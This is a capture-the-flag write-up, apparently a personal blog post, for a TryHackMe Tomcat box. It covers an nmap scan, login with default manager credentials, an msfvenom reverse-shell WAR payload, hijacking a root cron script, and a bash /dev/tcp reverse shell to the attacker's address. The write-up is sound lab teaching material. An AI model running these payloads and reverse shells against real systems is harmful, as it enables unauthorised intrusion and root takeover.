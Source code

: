 ```yaml
---
layout: default
title : bvr0n - mindgames Write-up
---
```


_**Sept 30, 2020**_

[Thompson](https://tryhackme.com/room/bsidesgtthompson) Writeup

## Nmap Scan :

```
kali@kali:~$ nmap -sC -sV 10.10.218.79
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
|_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/8.5.5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Gobuster Scan :

```
/docs (Status: 302)
/examples (Status: 302)
/favicon.ico (Status: 200)
/host-manager (Status: 302)
/manager (Status: 302)
```

Checking the `/manager` with the default creds of user : `tomcat` & passwd : `s3cret` we get access.

Since we are logged in, we can create a `.WAR` payload using msfvenom and get a reverse connection.

```
kali@kali:~$ msfvenom -p java/shell_reverse_tcp lhost=10.8.14.157 lport=9991 -f war -o pwn.war
Payload size: 13402 bytes
Final size of war file: 13402 bytes
Saved as: pwn.war
```

## 1st Privilege Escalation :

I noticed that the id.sh is executed by bash every minute, so let's abuse it :

```
*  *    * * *   root    cd /home/jack && bash id.sh
```
```
tomcat@ubuntu:/home/jack$ echo "cat /root/root.txt > test.txt" > id.sh
tomcat@ubuntu:/home/jack$ cat test.txt
tomcat@ubuntu:/home/jack$ d89d*************************a3a
```

## 2nd Privilege Escalation :

```
tomcat@ubuntu:/home/jack$ echo "bash -i >& /dev/tcp/10.8.14.157/8080 0>&1" > id.sh
```
```
kali@kali:~$ nc -lnvp 8080
root@ubuntu:/home/jack# id
uid=0(root) gid=0(root) groups=0(root)
```

<br>
<br>
Best Regards

[bvr0n](https://github.com/bvr0n).

<br>
<br>

[back to main()](../../index.md)

<br>
